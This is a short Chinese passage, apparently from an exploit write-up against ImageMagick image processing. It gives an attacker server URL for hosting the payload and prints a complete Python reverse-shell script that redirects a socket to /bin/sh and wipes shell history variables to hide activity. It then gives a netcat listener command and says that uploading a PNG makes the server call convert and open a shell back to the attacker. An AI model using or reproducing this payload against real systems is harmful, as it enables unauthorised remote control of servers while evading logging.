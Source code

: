 然后，把脚本部署到我们的服务器上

http://106.14.61.185/files/imageMagic.py

```python
# -*- coding:utf-8 -*-
#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
"""
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port>' % name

def main():
    if len(sys.argv) !=3:
        usage(sys.argv[0])
        sys.exit()
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        s.connect((sys.argv[1],int(sys.argv[2])))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    global shell
    os.unsetenv("HISTFILE")
    os.unsetenv("HISTFILESIZE")
    os.unsetenv("HISTSIZE")
    os.unsetenv("HISTORY")
    os.unsetenv("HISTSAVE")
    os.unsetenv("HISTZONE")
    os.unsetenv("HISTLOG")
    os.unsetenv("HISTCMD")
    os.putenv("HISTFILE",'/dev/null')
    os.putenv("HISTSIZE",'0')
    os.putenv("HISTFILESIZE",'0')
    pty.spawn(shell)
    s.close()

if __name__ == '__main__':
    main()
```

服务器监听一下 nc -l - 12315

上传png文件，它会自动调用convert，然后就能反弹shell
